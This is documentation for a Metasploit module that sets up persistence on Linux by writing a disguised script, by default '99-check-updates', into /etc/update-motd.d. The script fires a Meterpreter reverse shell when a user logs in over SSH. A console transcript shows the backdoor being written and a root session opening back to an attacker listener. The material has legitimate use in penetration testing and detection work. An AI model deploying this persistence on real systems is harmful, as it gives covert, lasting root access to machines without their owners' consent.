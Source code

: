 This is a post module that perform a persistence installation on a linux system using [motd](https://manpages.debian.org/bookworm/manpages/motd.5.en.html).
To trigger the persistence execution, an external event such as an user logging in the system with `SSH` is required.

## Verification Steps

  1. Start msfconsole
  2. Obtain a session on the target machine
  3. `use exploit/linux/local/motd_persistence`
  4. `set session -1`
  5. `exploit`

## Module usage

```
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > use motd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank    Check  Description
   -  ----                                  ---------------  ----    -----  -----------
   0  exploit/linux/local/motd_persistence  1999-01-01       normal  No     update-motd.d Persistence


Interact with a module by name or index. For example info 0, use 0 or use exploit/linux/local/motd_persistence

[*] Using exploit/linux/local/motd_persistence
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/motd_persistence) > set session -1
session => -1
msf6 exploit(linux/local/motd_persistence) > exploit

[*] /etc/update-motd.d/99-check-updates written
msf6 exploit(linux/local/motd_persistence) > 
[*] Sending stage (3045380 bytes) to 172.18.49.39
[*] Meterpreter session 2 opened (172.18.52.45:4444 -> 172.18.49.39:41848) at 2024-09-13 03:59:47 -0400
msf6 exploit(linux/local/motd_persistence) > sessions -i -1
[*] Starting interaction with 2...

meterpreter > getuid
Server username: root
meterpreter > 
```

## Options

### BACKDOOR_NAME

Specify the name of the file to insert in the motd directory. (Default: 99-check-updates)
